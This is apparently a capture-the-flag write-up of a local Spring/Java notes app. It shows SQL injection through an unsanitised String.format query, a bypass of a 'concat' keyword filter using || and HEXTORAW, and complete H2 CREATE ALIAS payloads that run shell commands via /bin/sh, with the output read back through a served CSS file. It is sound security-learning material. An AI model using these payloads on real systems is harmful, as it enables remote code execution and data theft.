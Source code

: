 :PROPERTIES:
:ID:       dae866e3-b237-4044-ab1f-df4b993193be
:END:
#+TITLE: Pentest Notes
#+AUTHOR: AsmArtisan256
#+DATE: 09-01-2025

#+OPTIONS: html-style:nil
#+OPTIONS: html-scripts:nil

#+OPTIONS: author:nil
#+OPTIONS: email:nil
#+OPTIONS: date:t
#+OPTIONS: toc:nil

#+PROPERTY: header-args :eval no

#+HTML_HEAD: <link rel="stylesheet" type="text/css" href="/style.css"/>

#+EXPORT_FILE_NAME: pentestnotes

I can start this by saying that this challenge was exceptionally good. Many
phases, the payload crafting was great, but very frustrating, I admit.

This is a web app that presents a login page, but it's also possible to register
a user.


#+DOWNLOADED: screenshot @ 2025-01-09 13:48:57
#+attr_org: :width 600px
[[file:writeup-img/2025-01-09_13-48-57_screenshot.png]]


Since I have no clue if any users exist, I just create one. After logging in
with the newly created user, I was presented with a list of 3 notes.


#+DOWNLOADED: screenshot @ 2025-01-09 13:51:00
#+attr_org: :width 600px
[[file:writeup-img/2025-01-09_13-51-00_screenshot.png]]

The notes are really not relevant at all. It's possible to click on them and go
to a page where the same text is presented. One curious thing about that is the
URL: =http://127.0.0.1:8080/note?name=Skill issue=. It contains a parameter, which
made me think of SQL injection right away. But firstly, it's always best to
download the web application files and read the code.

It looks like it's using the Spring Framework, using Java code. So I skipped
directly to the controller related to the notes, =NotesController.java=, where
it's easy to understand that a SQL injection vulnerability is available for
exploitation because the query is being built using =String.format=, where no
parameters are sanitized at all.

#+BEGIN_SRC java
@PostMapping("/note")
public ResponseEntity < ? > noteByName(@RequestParam String name, HttpSession httpSession) {
    if (httpSession.getAttribute("username") == null) {
        return ResponseEntity.status(HttpStatus.UNAUTHORIZED).body("unauthorized");
    }
    if (name.contains("$") || name.toLowerCase().contains("concat")) {
        return ResponseEntity.status(HttpStatus.FORBIDDEN).body("Bad character in name :)");
    }
    String query = String.format("Select * from notes where name ='%s' ", name);
    List < Object[] > resultList = entityManager.createNativeQuery(query).getResultList();
    List < Map < String, Object >> result = new ArrayList < > ();
    for (Object[] row: resultList) {
        Map < String, Object > rowMap = new HashMap < > ();
        rowMap.put("ID", row[0]);
        rowMap.put("Name", row[1]);
        rowMap.put("Note", row[2]);
        result.add(rowMap);
    }
    return ResponseEntity.ok(result);
}
#+END_SRC

The easiest way, in my opinion, to test if we are able to do some kind of SQL
injection, is to just use the =AND= SQL operator and duplicate the condition,
which actually worked and returned me the correct note.

#+BEGIN_SRC
// URL
http://127.0.0.1:8080/note?name=Skill issue' and name='Skill issue

// Query
Select * from notes where name = 'Skill issue' and name = 'Skill issue'
#+END_SRC

Now, since we need to craft some crazy query, I advise to use the =Dockerfile= to
create the container and to test locally, because it's also possible to check
the error messages in the logs.

Since I didn't know the type of the database, I had to search the web
application files, only to find out this using 'H2', an open-source database in
Java. The first step was to check any kind of RCE exploits or payloads. And that
is how I found a [[https://www.sonarsource.com/blog/dotcms515-sqli-to-rce/][website]] with an RCE payload that looks pretty good! Creates an
=ALIAS= to a =Java= function that executes a shell command. That's what is needed!

#+BEGIN_SRC sql
CREATE ALIAS EXEC AS CONCAT('void e(String cmd) throws java.io.IOException', HEXTORAW('007b'),'java.lang.Runtime rt = java.lang.Runtime.getRuntime(); rt.exec(cmd);',HEXTORAW('007d'));
CALL EXEC('whoami');
#+END_SRC

So now, before building the payload, it's important to note that the
=String.format= inserts the string between single quotes ='%s'= and could mess up
the payload. So, an important thing is to just end the =name= parameter with a
single quote and a semicolon, to start another set of commands, and then end
with =--= to ignore everything after. In this case, the URL will be:

#+BEGIN_SRC
http://127.0.0.1:8080/note?name=Skill issue'; CREATE ALIAS EXEC AS CONCAT('void e(String cmd) throws java.io.IOException',HEXTORAW('007b'),'java.lang.Runtime rt= java.lang.Runtime.getRuntime();rt.exec(cmd);',HEXTORAW('007d'));CALL EXEC('whoami'); --
#+END_SRC

Except... the payload didn't work, at all. But we got a response from the
server: =Bad character in name :)=. If we look at the code of the method above,
that string is in there and it is only returned if the parameter contains dollar
signs or the string =concat=. And in fact, the query I did contains the =concat=
keyword. This function is used to concatenate the strings that are passed as
parameters, but there is another way of doing that without using =concat=, and
that is by using the =||= operator. And this is something that must be used,
because we can't use =[]= or ={}= in the URL string, so HEXTORAW is used to bypass
that issue and it has to be concatenated to the rest of the strings. The =||=
should also be URL encoded.

So here is the new payload:

#+BEGIN_SRC
CREATE ALIAS EXEC2 AS 'void e(String cmd) throws java.io.IOException ' %7c%7c HEXTORAW('007b') %7c%7c 'java.lang.Runtime rt = java.lang.Runtime.getRuntime(); rt.exec(cmd);' %7c%7c HEXTORAW('007d'); CALL EXEC('whoami'); --
#+END_SRC

It's possible to tell it worked because the page loaded as expected by showing
the correct note. But nothing else happened. And that makes sense.The output of
the command is going to nowhere. It's not being printed, it's not being
redirected, nothing. Ideally, we must change the code so we can actually execute
shell commands that include redirection. Instead of passing a simple =String= to
the =exec= method, we must pass a variable of the type =String[]=, which should be
declared as follows:

#+BEGIN_SRC java
String[] cmd2 = {"/bin/sh", "-c", cmd};
rt.exec(cmd2);
#+END_SRC

Let's not forget that now, =[]= should be go through =HEXTORAW=, just like the
double quotes. And I did that to the double quotes just to make sure!

#+BEGIN_SRC
CREATE ALIAS EXEC3 AS 'void e(String cmd) throws java.io.IOException ' %7c%7c HEXTORAW('007b') %7c%7c 'java.lang.Runtime rt = java.lang.Runtime.getRuntime(); String' %7c%7c HEXTORAW('005b') %7c%7c HEXTORAW('005d') %7c%7c ' cmd2 = ' %7c%7c HEXTORAW('007b') %7c%7c HEXTORAW('0022') %7c%7c '/bin/sh' %7c%7c HEXTORAW('0022') %7c%7c ',' %7c%7c HEXTORAW('0022') %7c%7c '-c' %7c%7c HEXTORAW('0022') %7c%7c ', cmd' %7c%7c HEXTORAW('007d') %7c%7c '; rt.exec(cmd2);' %7c%7c HEXTORAW('007d');--
#+END_SRC

Now that is one gigantic payload. But after the request, everything worked! So
now =EXEC2= can be used to execute shell commands. Let's see what does the root
directory has. And let's redirect its output to
=target/classes/static/Css/main.css= which is the main file that is being served
by the HTTP server.

#+BEGIN_SRC
http://127.0.0.1:8080/note?name=Skill issue'; CALL EXEC3('ls -la / > target/classes/static/Css/main.css');--
#+END_SRC

By checking the =main.css= file now, it contains the output of the command:

#+BEGIN_SRC
http://127.0.0.1:8080/Css/main.css

total 100
drwxr-xr-x   1 root root 4096 Jan  9 13:28 .
drwxr-xr-x   1 root root 4096 Jan  9 13:28 ..
-rwxr-xr-x   1 root root    0 Jan  9 13:28 .dockerenv
-rw-rw-rw-   1 root root   26 Oct  5 12:16 UttCBDpF0EF5_flag.txt
drwxr-xr-x   1 root root 4096 Jan  9 13:28 app
drwxr-xr-x   2 root root 4096 Apr 18  2022 bin
drwxr-xr-x   2 root root 4096 Mar 19  2022 boot
drwxr-xr-x   5 root root  340 Jan  9 13:28 dev
drwxr-xr-x   1 root root 4096 Jan  9 13:28 etc
drwxr-xr-x   2 root root 4096 Mar 19  2022 home
drwxr-xr-x   1 root root 4096 Apr 18  2022 lib
drwxr-xr-x   2 root root 4096 Apr 18  2022 lib64
drwxr-xr-x   2 root root 4096 Apr 18  2022 media
drwxr-xr-x   2 root root 4096 Apr 18  2022 mnt
drwxr-xr-x   2 root root 4096 Apr 18  2022 opt
dr-xr-xr-x 602 root root    0 Jan  9 13:28 proc
drwx------   1 root root 4096 Jan  9 13:28 root
drwxr-xr-x   3 root root 4096 Apr 18  2022 run
drwxr-xr-x   2 root root 4096 Apr 18  2022 sbin
drwxr-xr-x   2 root root 4096 Apr 18  2022 srv
dr-xr-xr-x  13 root root    0 Jan  9 13:28 sys
drwxrwxrwt   1 root root 4096 Jan  9 13:28 tmp
drwxr-xr-x   1 root root 4096 Apr 18  2022 usr
drwxr-xr-x   1 root root 4096 Apr 18  2022 var
#+END_SRC

The flag is right there! Now it's just a matter of printing the flag to the same
file and there we go!


* FOOTER                                                                                              :ignore:
:PROPERTIES:
:clearpage: t
:END:
#+BEGIN_EXPORT html
<hr>
<footer>
  <div class="container">
    <ul class="menu-list">
      <li class="menu-list-item flex-basis-100-margin fit-content">
        <a href="/index.html">Home</a>
      </li>
      <li class="menu-list-item flex-basis-100-margin fit-content">
        <a href="/articles/articles.html">Articles</a>
      </li>
      <li class="menu-list-item flex-basis-100-margin fit-content">
        <a href="/writeups/writeups.html">Write-Ups</a>
      </li>
      <li class="menu-list-item flex-basis-100-margin fit-content">
        <a class="inactive-link">09-01-2025</a>
      </li>
    </ul>
  </div>
</footer>
#+END_EXPORT
